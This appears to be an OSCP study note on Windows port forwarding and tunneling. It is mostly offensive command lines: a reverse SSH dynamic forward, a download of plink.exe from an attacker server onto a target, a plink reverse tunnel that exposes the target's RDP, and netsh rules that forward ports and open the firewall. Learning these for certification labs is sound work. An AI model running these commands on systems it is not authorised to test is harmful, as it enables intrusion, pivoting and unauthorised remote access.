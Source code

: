 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/k-port-redirection-and-tunneling/2-windows-port-forwarding/"}
---
```


- OpenSSH comes with Windows since April 2018
- On machines with SSH installed you find: scp.exe, sftp.exe, ssh.exe, etc. in %systemdrive%\\Windows\\System32\\OpenSSH
-----
## SSH Remote Dynamic Port Forwarding:
1. Start SSH server on attacker machine:
```bash
sudo systemctl start ssh
```
2. Locate ssh.exe in cmd on target:
```powershell
where ssh
```
3. Check version of ssh:
```powershell
ssh.exe -V
```
4. Set up port forwarding:
```bash
ssh -N -R 2345 crabfeather@192.168.45.180
```
5. Use with proxychains and win!

-----------
## Plink.exe Remote Port Forwarding + RDP binding:
1. Download the plink.exe binary to the target:
``` bash
#Start server:
sudo systemctl start apache2

#Download binary:
powershell wget -Uri http://192.168.45.X/plink.exe -OutFile C:\Windows\Temp\plink.exe
```
2. Start port forwarding (use Windows' loopback IP + its listening RDP port to be able to use RDP from kali):
```powershell
cmd.exe /c echo y | C:\Windows\Temp\plink.exe -ssh -l <kaliuser> -pw <kalipassword> -R 127.0.0.1:2345:<outip>:<outport> <kali-ip>
```
Example: Port forwarding using Windows' loopback IP + its listening RDP port to be able to use RDP from kali:
```powershell
cmd.exe /c echo y | C:\Windows\Temp\plink.exe -ssh -l <kaliuser> -pw <kalipassword> -R 127.0.0.1:4455:127.0.0.1:3389 <kali-ip>
```

------------------
## Netsh local port forwarding + firewall poking:
- Requires Administrative privs
1. Set up port forwarding:
```powershell
netsh interface portproxy add v4tov4 listenport=2222 listenaddress=192.168.230.64 connectport=22 connectaddress=10.4.230.215
```
2. Confirm it is working:
```powershell
netsh interface portproxy show all
```
3. Poke hole in firewall outwards:
```powershell
netsh advfirewall firewall add rule name="port_forward_ssh_2222" protocol=TCP dir=in localip=192.168.230.64 localport=2222 action=allow
```
4. Delete rules afterwards:
```powershell
netsh interface portproxy del v4tov4 listenport=2222 listenaddress=192.168.50.64
```
